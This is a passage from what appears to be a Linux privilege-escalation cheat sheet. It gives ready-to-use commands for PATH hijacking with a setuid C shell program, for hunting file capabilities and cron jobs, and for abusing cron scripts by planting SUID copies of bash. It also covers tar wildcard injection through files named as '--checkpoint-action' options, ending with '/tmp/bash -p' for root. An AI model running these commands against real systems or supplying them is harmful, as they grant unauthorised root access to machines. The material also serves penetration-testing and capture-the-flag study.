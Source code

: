 1. Make a malicious script named the same way as the `$PATH` command we are looking to hijack
`echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/<COMMAND NAME>.c`

2. Compile: `gcc /tmp/<COMMAND NAME>.c -o /tmp/<COMMAND NAME>`

3. Add /tmp to `$PATH`: `export PATH=/tmp:$PATH`

4. Run the script.

## [CAPABILITIES]

*Abuse capabilities to get higher privileges*

    getcap -r / 2>/dev/null

## [SCHEDULED TASKS]

*Abuse scheduled tasks made by a higher privileged user in order to privesc*

### *Hunt Task Schedules*

*Find scheduled tasks.*

    cat /etc/crontab
    systemctl list-timers --all
    
### *Cron Paths Abuse*

*If we have a scheduled task to run a script that doesn't use the absolute path of said script, we could possibly hijack it by creating a script of the same name at a higher priority in the PATH*

    echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > <HIGHER PRIORITY PATH>/<SCRIPT NAME>.sh
    chmod +x <HIGHER PRIORITY PATH>/<SCRIPT NAME>.sh

### *Cron Wildcards*

*If a scheduled task uses an asterick `*` in its script, it could possibly be used to privesc. Use the following example for guidance.*

*Target cron task*
```
#!/bin/bash
cd /home/user
tar czf /tmp/backup.tar.gz *
```

*We can abuse this crontask by forcing it to run a malicious script before completing its task.*

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
chmod +x /home/user/runme.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=sh\runme.sh
```

Next, we can `/tmp/bash -p` and we will have root.
